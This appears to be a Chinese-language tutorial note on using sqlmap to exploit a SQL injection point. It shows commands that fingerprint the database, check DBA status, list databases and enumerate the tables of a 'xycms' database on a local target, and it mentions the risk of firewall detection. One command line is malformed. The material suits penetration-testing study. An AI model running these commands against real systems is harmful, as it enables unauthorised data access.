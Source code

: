 ### 基本语句：

跑一下大概的信息

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13即发现的注入点"
```

```
-u
#URL 探测这个网址和系统的最基本信息
```

```
Ctrl+C
#打断进程
```

```
#很卡的原因：每次访问都相当于第一次打开（TCP慢启动机制，如果每次发包太快会被怀疑有问题然后被拦截）
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --keep-alive
sqlmap.py -u "http://172.16.1.143:8--keep-alive

--keep-alive
#保持链接常开状态，保持会话，但有被防火墙发现和拦截的风险
```

```
中途有跳出询问的语句，可以直接回车
```

判断一下是否是数据库管理员

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --is-dba
```

（如果是数据库管理员，则可以跳过查看数据库内容——因为知道数据库名是为了看表，现在就可以直接看所有表名，不过查询内容会较多）

查看一下所有的数据库

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --dbs

--dbs
#查看一下所有的数据库
```

查看当前所用的数据库

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --current-db

--current-db
#查看当前所用的数据库
```

列出当前数据库的表名

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --tables -D xycms

-D xycms
#指定数据库名为xycms
--tables
#列出当前数据库的表名
```
